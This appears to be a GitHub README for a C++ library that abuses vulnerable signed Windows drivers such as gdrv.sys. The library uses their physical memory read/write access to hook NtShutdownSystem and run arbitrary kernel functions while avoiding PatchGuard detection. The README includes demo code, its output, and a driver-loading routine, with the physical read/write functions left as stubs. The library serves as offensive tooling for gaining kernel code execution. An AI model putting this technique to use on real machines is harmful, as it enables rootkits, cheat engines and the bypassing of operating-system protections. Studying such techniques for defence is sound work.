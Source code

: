 <div align="center">
    <div>
        <img src="https://imgur.com/7ipSZRN.png"/>
    </div>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys, and is inline hooking NtShutdownSystem. The inline hook is not patchguard friendly,
but is removed after every syscall into NtShutdownSystem to prevent triggering patchguard. Although this is not patchguard friendly, using this to call a few kernel functions will most likely not cause any issues. 
This library is not ment to be used by itself, it is ment to help the programmer setup whatever they need to in the kernel.

# Example

In this example VDM syscalls into an inline hook placed on NtShutdownSystem to call memcpy exported from ntoskrnl.exe.

#### Demo Code
```cpp
vdm::vdm_ctx vdm;
const auto ntoskrnl_base =
reinterpret_cast<void*>(
    util::get_module_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
    util::get_kernel_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);
std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0x70, drv_key -> frAQBc8Wsa1xVPfv
[+] NtShutdownSystem physical address -> 0x00000000109BB3A0
[+] ntoskrnl base address -> 0xFFFFF80075200000
[+] ntoskrnl memcpy address -> 0xFFFFF800755F0980
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. 

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```
